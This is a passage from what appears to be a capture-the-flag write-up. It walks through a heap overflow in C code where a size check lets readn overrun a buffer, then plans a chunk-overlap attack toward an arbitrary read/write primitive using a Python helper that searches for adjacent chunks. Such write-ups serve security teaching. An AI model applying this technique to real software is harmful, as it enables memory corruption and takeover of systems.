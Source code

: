 ```c
if (file->size < size && size <= file_max) { // file_max is 65535
        file->data = malloc(size); // we want to reach this codepath
        file->size = size;

  [...]
}
readn(file->data, file->size); // heap overflow
```

`file_max` is `65535`. As long we enter a size less than or equal to `65535`, we're good to go and `readn` will be invoked.

```c
void readn(char* buf, size_t buf_len) {
  while (buf_len) {
    int result = fread(buf, 1, buf_len, stdin);
    if (result < 0) {
      abort();
    }
    buf += result;
    buf_len -= result;
  }
}
```

After the recon phase, it's time to map out a plan for an arbitrary R/W primitive.

### Chunk Overlap

As was previously mentioned, the goal is to reliably estimate two chunks whose addresses overlap. To be more precise, it'd be really sweet if we could land a `file_entry->data` pointer before a `file_entry` object. If the difference of these two chunks is less than `file_max` and the `file_entry->data` address is preceded, we are able to overwrite the contents of a `file_entry` object while writing `file_max` bytes in the data chunk.

**Note:** _For clarity's sake, from now on we'll be referring to the `data` chunk as `magic` and the `file_entry` object which is to be overwritten as `victim`._

At this point, we can calculate the number of required chunks to allocate until `malloc` returns two overlapping chunks. Each time we'll allocate 100 chunks and calculate the minimum difference between every two chunks.

```python
chunks = []

# Every 100th allocation, take the chunks, sort them
# and find the two with the minimum difference
def find_min_diff():
        global chunks
        global heap_allocations

        chunks.sort()

        min_diff = 0x60100000 - 0x40000000 + 1
        pos = None

        for i in range(len(chunks) - 1):
                diff = chunks[i + 1][0] - chunks[i][0]
                if diff < min_diff:
                        min_diff = diff
                        pos = i
        return (pos, min_diff)
```
